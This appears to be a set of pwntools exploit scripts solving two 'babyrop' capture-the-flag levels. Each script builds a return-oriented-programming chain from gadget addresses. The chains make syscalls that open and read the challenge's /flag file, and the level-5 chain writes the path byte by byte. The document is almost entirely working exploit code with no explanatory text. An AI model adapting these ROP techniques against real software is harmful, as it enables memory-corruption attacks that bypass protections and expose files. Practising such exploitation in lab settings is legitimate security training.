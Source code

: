 level 4.0
from pwn import *

p=process(['/challenge/babyrop_level4.0'])

sys_ret=0x401a71
rax_ret=0x401a41
rdi_ret=0x401a51
r10_ret=0x401a61
rdx_ret=0x401a62
rsi_ret=0x401a59

p.recvuntil("[LEAK] Your input buffer is located at: ")
add_str=p.recvuntil(".",drop=True)
buffer_add=int(add_str,16)

print(hex(buffer_add))
flag_add=buffer_add+0x48+0x80

payload=b'\x90'*(0x48)+p64(rdi_ret)+p64(flag_add)+p64(rsi_ret)+p64(0)+p64(rax_ret)+p64(2)+p64(sys_ret)+p64(rdi_ret)+p64(1)+p64(rsi_ret)+p64(3)+p64(r10_ret)+p64(60)+p64(rax_ret)+p64(40)+p64(0x401a71)+p64(0x00000067616c662f)
p.sendline(payload)

p.interactive()

level 5.0
from pwn import *

p=process(['/challenge/babyrop_level5.0'])

sys_ret=0x4017af
rax_ret=0x4017bf
rdi_ret=0x4017d7
r10_ret=0x4017e7
rdx_ret=0x4017b7
rsi_ret=0x4017df
rcx_ret=0x4017d0

add_rcx_al=0x40127b

flag_add=0x404078

#write(1,flag_add,8)
payload=b'\x90'*(0x78)#+p64(rdi_ret)+p64(1)+p64(rsi_ret)+p64(flag_add)+p64(rdx_ret)+p64(6)+p64(rax_ret)+p64(1)+p64(sys_ret)
#flag_add[0]=0x2f
payload+=p64(rax_ret)+p64(0x2f)+p64(rcx_ret)+p64(flag_add)+p64(add_rcx_al)+p64(0)
payload+=p64(rax_ret)+p64(0x66)+p64(rcx_ret)+p64(flag_add+1)+p64(add_rcx_al)+p64(0)
payload+=p64(rax_ret)+p64(0x6c)+p64(rcx_ret)+p64(flag_add+2)+p64(add_rcx_al)+p64(0)
payload+=p64(rax_ret)+p64(0x61)+p64(rcx_ret)+p64(flag_add+3)+p64(add_rcx_al)+p64(0)
payload+=p64(rax_ret)+p64(0x67)+p64(rcx_ret)+p64(flag_add+4)+p64(add_rcx_al)+p64(0)
#write(1,flag_add,8)
payload+=p64(rdi_ret)+p64(1)+p64(rsi_ret)+p64(flag_add)+p64(rdx_ret)+p64(5)+p64(rax_ret)+p64(1)+p64(sys_ret)
#open(/flag,r)
payload+=p64(rdi_ret)+p64(flag_add)+p64(rsi_ret)+p64(0x123407ff)+p64(rax_ret)+p64(90)+p64(sys_ret)
